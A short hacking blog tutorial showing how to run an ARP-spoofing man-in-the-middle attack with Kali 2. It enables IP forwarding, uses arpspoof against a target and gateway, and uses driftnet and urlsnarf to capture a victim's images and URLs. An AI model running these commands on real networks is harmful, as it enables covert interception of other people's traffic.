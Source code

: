 ```yaml
---
layout: post
title: "How To Perform A Man In The Middle Using Kali 2"
category: Hacking
description: "Learn how to perform a man in the middle using Kali 2 with arpspoof. Caputure images and urls."
---
```


A man in the middle attack is simply someone sitting in between your browser and a legitimate website. Data can be altered or snooped on during this.  

Arp spoofing is the process of making machines on your network believe you are the gateway. Thus all data flows through you and vice versa.

<!--more-->

![Man in the middle](/images/mitm.png)

Today we'll be looking at how to perform a Man In The Middle to capture images and urls by the victim.

Requirements are [Kali 2](https://www.kali.org)

# 1. Open 3 terminals

![Three terminals](/images/step1.png)

# 2. Set up port forwarding

Run this command and if the output is 0 then we need to change it to 1

```shell
$ cat /proc/sys/net/ipv4/ip_forward
```

<br>

```shell
$ echo 1 >> /proc/sys/net/ipv4/ip_forward
```

![Step 2](/images/step2.png)

# 3. Run arpspoof

first

```shell
$ arpspoof -i eth0 targetiphere gatewayiphere
```

![step 3](/images/step3.png)

and then in another terminal

```shell
$ arpspoof -i eth0 gatewayiphere targetiphere
```

![step 4](/images/step4.png)

# 4. Run driftnet

This will capture images opened by the victim and display them in the black box.

```shell
$ driftnet -i eth0
```

![step 5](/images/step5.png)

### Bonus: Run urlsnarf to capture http requests

```shell
$ urlsnarf -i eth0
```

Or simply open up [Wireshark](https://www.wireshark.org/) and capture packets passing through you.
